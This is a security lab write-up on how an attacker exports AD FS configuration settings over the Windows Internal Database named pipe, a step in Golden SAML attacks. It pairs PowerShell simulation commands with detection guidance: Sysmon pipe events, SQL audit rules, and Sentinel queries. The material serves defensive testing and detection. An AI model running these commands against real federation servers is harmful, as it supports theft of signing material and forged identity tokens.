 # Export AD FS Configuration via a Local Named Pipe

Locally, the AD FS WID does not have its own management user interface (UI), but one could connect to it via a specific `named pipe`.
Depending on the WID version, one could use the following named pipes to connect to the AD FS database and query its configuration settings:

* **WID 2008**: `\\.\pipe\MSSQL$MICROSOFT##SSEE\sql\query`
* **WID 2012+**: `\\.\pipe\MICROSOFT##WID\tsql\query`

![](../../../../images/labs/GoldenSAML/exportADFSConfiguration/2021-06-01_export_adfs_configuration_named_pipe.jpg)

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [References](#references)

## Preconditions

* Integrity level: medium
* Authorization:
    * Resource: AD FS Database 
    * Identity:
        * AD FS Service Account
        * Local Administrator
* AD FS Server
    * Services:
        * Active Directory Federation Services (ADFSSRV)

## Simulation Steps

### Get Database Connection String via WMI Class

The named pipe information can be obtained directly from the `ConfigurationDatabaseConnectionString` property of the `SecurityTokenService` class from the WMI `ADFS namespace`.

1.  Connect to the AD FS server via the [Azure Bastion service](../../../../environments/_helper-docs/connectAzVmAzBastion.md) as the AD FS service account.
2.  Open PowerShell and run the following commands:

```PowerShell
$ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService
$conn = $ADFS.ConfigurationDatabaseConnectionString
$conn
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_02_get_database_string_wmi_class.png)

### Connect to the Database and Read Configuration

3. Use the connection string to connect to the AD FS database (WID) and run a SQL `SELECT` statement to export its configuration settings from the `IdentityServerPolicy.ServiceSettings` table.

```PowerShell
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn
$SQLclient.Open()
$SQLcmd = $SQLclient.CreateCommand()
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"
$SQLreader = $SQLcmd.ExecuteReader()
$SQLreader.Read() | Out-Null
$settings=$SQLreader.GetTextReader(0).ReadToEnd()
$SQLreader.Dispose()
$settings
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_03_get_database_configuration.png)

## Detection

### Detect Named Pipe Connection

The connection to the AD FS database occurs via the `\\.\pipe\microsoft##wid\tsql\query` named pipe, and we could monitor for the connection to it with `Sysmon Event ID 18 (Pipe Connected)`.

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_04_event_sample.png)

#### Azure Sentinel Detection Rules

* [AD FS Database Named Pipe Connection Rule](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/ADFSDBNamedPipeConnection.yaml)

### Detect AD FS SQL Statement to Export Service Settings

If we want to monitor for anyone interacting with the WID database via SQL statements, we would need to [create a server audit and database audit specification](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/create-a-server-audit-and-database-audit-specification?view=sql-server-ver15). We can use the [Microsot SQL Server PowerShell module](https://docs.microsoft.com/en-us/powershell/module/sqlserver/?view=sqlserver-ps) to connect to the database and create audit rules.

**Create SQL Audit Rules**:

1.  On the AD FS server (ADFS01), open PowerShell as Administrator.
2.  Install the SqlServer PowerShell Module.

```PowerShell
Install-Module -Name SqlServer
Import-module SqlServer
```

3.  Create SQL Audit Rules.

```PowerShell
Invoke-SqlCmd -ServerInstance '\\.\pipe\microsoft##wid\tsql\query' -Query "
USE [master]
GO
CREATE SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] TO APPLICATION_LOG WITH (QUEUE_DELAY = 1000, ON_FAILURE = CONTINUE)
GO
ALTER SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] WITH (STATE = ON)
GO
USE [ADFSConfigurationV4]
GO
CREATE DATABASE AUDIT SPECIFICATION [ADFS_SETTINGS_ACCESS_AUDIT] FOR SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] ADD (SELECT, UPDATE ON OBJECT::[IdentityServerPolicy].[ServiceSettings] BY [public])
GO
ALTER DATABASE AUDIT SPECIFICATION [ADFS_SETTINGS_ACCESS_AUDIT] WITH (STATE = ON)
GO
"
```

4.  Validate SQL Audit rule by running previous simulation steps either as the AD FS service account or local administrator:
* [Get Database Connection String via WMI Class](#get-database-connection-string-via-wmi-class)
* [Connect to database and run SQL statement to read configuration](#connect-to-database-and-run-sql-statement-to-read-configuration)

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_04_adfs_sql_event_sample.png)

#### Azure Sentinel Hunting Queries

* [AD FS Database Local SQL Statements Rule](https://github.com/Azure/Azure-Sentinel/blob/master/Hunting%20Queries/SecurityEvent/ADFSDBLocalSqlStatements.yaml)

## Output

* AD FS Configuration Settings

## References

* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [The Role of the AD FS Configuration Database | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-the-ad-fs-configuration-database)
* [Create a server audit and database audit specification](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/create-a-server-audit-and-database-audit-specification?view=sql-server-ver15)
* [SQL Server Audit Action Groups and Actions](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/sql-server-audit-action-groups-and-actions?view=sql-server-ver15)